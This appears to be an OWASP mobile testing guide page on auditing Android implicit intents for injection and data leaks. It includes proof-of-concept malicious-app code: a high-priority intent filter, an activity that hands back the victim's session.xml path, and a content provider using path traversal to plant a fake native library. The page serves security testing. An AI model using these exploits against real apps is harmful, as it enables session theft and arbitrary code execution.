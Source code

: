 ```yaml
---
masvs_v1_id:
- MSTG-PLATFORM-2
masvs_v2_id:
- MASVS-CODE-4
platform: android
title: Testing Implicit Intents
masvs_v1_levels:
- L1
- L2
status: deprecated
deprecation_note: New version available in MASTG V2
---
```


## Overview

When testing for [implicit intents](../../../Document/0x05h-Testing-Platform-Interaction.md#implicit-intents) you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.

## Static Analysis

Inspect the Android Manifest and look for any `<intent>` signatures defined inside [<queries> blocks](https://developer.android.com/guide/topics/manifest/queries-element "Android queries") (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following `Intent` doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action `android.intent.action.GET_CONTENT` to ask the user for input data and then the app starts the intent by `startActivityForResult` and specifying an image chooser.

```java
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```

The app uses `startActivityForResult` instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/<appname>' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents " Current attacks on implicit intents").

### Case 1: Arbitrary File Read

In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname>` due to the improper validation of the return value of the intent.

The `performAction` method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling `getExternalCacheDir` or `getExternalFilesDir` an attacker can read this file after setting the permission `android.permission.READ_EXTERNAL_STORAGE`.

```java
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}
```

The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```

If the user selects the malicious app to handle the intent, the attacker can now steal the `session.xml` file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.

```java
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```

### Case 2: Arbitrary Code Execution

An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a [`ContentProvider`](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider") that contains `public Cursor query(...)` to set an arbitrary file (in this case _lib.so_), and if the victim loads this file from the content provider by executing `copy` the attacker's `ParcelFileDescriptor openFile(...)` method will be executed and return a malicious _fakelib.so_.

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```

EvilContentProvider.java

```java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

## Dynamic Analysis

A convenient way to dynamically test for implicit intents, especially to identify potentially leaked sensitive data, is to use Frida or frida-trace and hook the `startActivityForResult` and `onActivityResult` methods and inspect the provided intents and the data they contain.
